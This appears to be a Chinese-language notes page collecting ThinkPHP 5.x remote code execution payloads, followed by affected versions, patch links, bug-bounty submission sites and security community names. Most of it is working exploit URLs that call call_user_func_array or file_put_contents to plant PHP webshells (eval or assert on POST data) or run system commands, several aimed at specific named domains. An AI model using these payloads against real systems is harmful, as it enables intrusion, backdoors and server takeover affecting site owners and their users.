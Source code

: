 ### 发现漏洞
    域名/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=zxc1.php&vars[1][]=<?php @eval($_POST[fuck]);?>'
    
    api.91tangrenjie.com/?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=fff.php&vars[1][1]=<?php print_R(scandir('/www/wwwroot/api.91tangrenjie.com/application/admin'))?>
    
    api.91tangrenjie.com/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shix1.php&vars[1][1]=<?php assert($_POST['fuck'])?>

### 发现
    api.6d2g.cn/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=tt.php&vars[1][]=<?php @eval($_POST[111]);?>
    
    ?s=index/\think\Request/input&filter=phpinfo&data=1
    ?s=index/\think\Request/input&filter=system&data=id
    ?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=
    ?s=index/\think\view\driver\Php/display&content=
    ?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
    ?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
    ?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
    ?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0

    http://dkfh.h8mtqt.cn/api/invoke/args?function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=notify.php&vars[1][]=<?php @eval($_POST[1111]);?>

    http://jogt.h8mtqt.cn/admin/auth/admin/invokesync?dialog=fast&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=notify.php&vars[1][]=<?php @eval($_POST[1111]);?>
    
    ReflectionFunction
       /**
     * 加载参数
     */
    public function args($function, $vars = [])
    {
        $reflect = new \ReflectionFunction($function);
        $args    = \think\App::bindParams($reflect, $vars);
        return $reflect->invokeArgs($args);
    }

### tp受影响版本 5.x < 5.1.31, <= 5.0.23

    Thinkphp v5.0.x补丁地址: https://github.com/top-think/framework/commit/b797d72352e6b4eb0e11b6bc2a2ef25907b7756f
    
    Thinkphp v5.1.x补丁地址: https://github.com/top-think/framework/commit/802f284bec821a608e7543d91126abc5901b2815

### 漏洞提交 

- 宜信安全应急响应中心 
- https://security.creditease.cn/  提交漏洞 
- https://www.anquanke.com/src
- https://butian.360.cn

### 安全类社区 

- 先知社区 seebug
- 安全客 freebuf
- tuisec 
- i春秋社区  
- 大佬的 twitter + blog
- 
- CTF平台  
- capture the flag  抢夺旗帜  获取旗帜


